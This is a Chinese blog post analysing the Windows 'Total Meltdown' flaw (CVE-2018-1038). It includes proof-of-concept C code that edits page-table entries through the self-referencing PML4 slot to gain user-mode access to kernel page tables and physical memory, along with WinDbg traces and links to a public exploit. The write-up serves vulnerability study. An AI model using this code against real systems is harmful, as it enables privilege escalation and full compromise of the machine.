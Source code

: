 ```yaml
---
layout: post
title:  "CVE-2018-1038：TotalMeltdown漏洞分析的一点记录"
date:   2018-04-11 11:30:00
categories: 漏洞分析
tags: [漏洞分析]
---
```


<!-- more -->

### 漏洞分析

参考链接中对漏洞分析已经很清晰了，本来是想对PD项也进行权限改写，但是添加代码后（如下代码：）

```

#include 
#include 
#include 

#define QWORD unsigned long long

#define BASE 0xFFFF000000000000

#define PML4 0xFFFFF6FB7DBED000

#define PML4SELF_IDX 0x1ed

QWORD getAddr(QWORD base, QWORD pml4Idx, QWORD pdptIdx, QWORD pdIdx, QWORD ptIdx, QWORD offsetIdx);


void testAddr(unsigned char *p);

int main(int argc, char *argv)
{
	unsigned char *temp = (unsigned char *)0xFFFFF6FB7DBED000;

	unsigned char *p = (unsigned char*)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 1, 0);//到达PDPT
	testAddr(p);
	QWORD *pdpte = (QWORD *)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 8);
	*pdpte = (*pdpte | 7);
	testAddr(p);

//添加部分

	unsigned char *pd = (unsigned char*)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, 1, 5, 0x0);//到达PD
	testAddr(pd);
	QWORD *pde = (QWORD *)getAddr(BASE, PML4SELF_IDX, PML4SELF_IDX, PML4SELF_IDX, 1, 40);
	*pde = (*pde | 7);
	testAddr(pd);
	
	system("pause");
	return 0;
}


QWORD getAddr(QWORD base, QWORD pml4Idx, QWORD pdptIdx, QWORD pdIdx, QWORD ptIdx, QWORD offsetIdx) {
	base = base + offsetIdx + (ptIdx << 12) + (pdIdx << 21) + (pdptIdx << 30) + (pml4Idx << 39);
	return base;
}

void testAddr(unsigned char *p) {
	__try {
		int i = *p;
		memcpy(p + 40, "\x00\x00\x00\x00\x00\x02\x00\x00", 8);
		printf("access 0x%p sucess\n", p);
	}
	__except (EXCEPTION_EXECUTE_HANDLER) {
		printf("access 0x%p error\n", p);
	
	}
}

```

发生错误，所以就对原因进行探究。首先是对虚拟地址转化成物理地址的过程进行分析，如下图：

![](../image/2018-04-11-CVE-2018-1038-TotalMeltdown漏洞分析的一点记录/5.png)

实际调试过程如下：

两个地址的分解结果：

```
kd> .formats 0xFFFFF6FB7DA01000
Evaluate expression:
  Hex:     fffff6fb`7da01000
  Decimal: -9914971844608
  Octal:   1777777557557550010000
  Binary:  11111111 11111111 11110110 11111011 01111101 10100000 00010000 00000000
  Chars:   ....}...
  Time:    ***** Invalid FILETIME
  Float:   low 2.65949e+037 high -1.#QNAN
  Double:  -1.#QNAN
```
```
11111111 11111111 
11110110 1 ：0x1ED (PML4 index)
1111011 01 : 0x1ED (PDPT index)
111101 101 : 0x1ED (PD index)
00000 0001 : 0x1 (PT index)
0000 00000000 (OFFSET)
```

---

```
kd> .formats 0xfffff6fb40205000
Evaluate expression:
  Hex:     fffff6fb`40205000
  Decimal: -9916003627008
  Octal:   1777777557550010050000
  Binary:  11111111 11111111 11110110 11111011 01000000 00100000 01010000 00000000
  Chars:   ....@ P.
  Time:    ***** Invalid FILETIME
  Float:   low 2.50488 high -1.#QNAN
  Double:  -1.#QNAN

11111111 11111111 
11110110 1 : 0x1ED(PML4 index)
1111011 01 : 0x1ED(PDPT index)
000000 001 : 0x1 (PD index)
00000 0101 : 0x5 (PT index)
0000 00000000 (OFFSET)
 
```

查看cr3寄存器的值

```
kd> rM 80
cr0=0000000080050031 cr2=fffff900c22eb000 cr3=0000000000187000
cr8=000000000000000f
```

![](../image/2018-04-11-CVE-2018-1038-TotalMeltdown漏洞分析的一点记录/2.jpg)

得到PFN是0x00187，将PFN*PageSize得到下一级结构PDPT的基址，然后使用pdpt_index来索引PDPT，通过计算PDPT的基址为0x00187000,依然指向的是PML4.
继续计算PD的基址也是0x00187000，最后剩下PT的基址也为0x00187000,所以0xFFFFF6FB7DA01000转化成的物理地址为：0x0000000000000000

![](../image/2018-04-11-CVE-2018-1038-TotalMeltdown漏洞分析的一点记录/3.jpg)

经过分析发现之前修改PD项权限错误的原因是PDPT项被映射到了0x0地址上，而0x0上填充的内容超过了映射地址范围，经过测试映射范围最大为0x7ff`ffff`ffff。

![](../image/2018-04-11-CVE-2018-1038-TotalMeltdown漏洞分析的一点记录/4.jpg)

所以将要映射的地址填成这个范围就可以成功了。

```
memcpy(p + 40, "\x00\x00\x00\x00\x00\x02\x00\x00", 8);
```

运行效果图：

![](../image/2018-04-11-CVE-2018-1038-TotalMeltdown漏洞分析的一点记录/6.jpg)

### 参考链接

https://www.coresecurity.com/blog/getting-physical-extreme-abuse-of-intel-based-paging-systems-part-2-windows

https://bbs.pediy.com/thread-224348.htm

http://blog.frizk.net/2018/03/total-meltdown.html

https://cert.360.cn/warning/detail?id=b58c185c339521ee4e31674d36cd36e3

xpn公布的exp技术分析文章：https://blog.xpnsec.com/total-meltdown-cve-2018-1038/

exp地址：https://gist.github.com/xpn/3792ec34d712425a5c47caf5677de5fe#gistcomment-2568017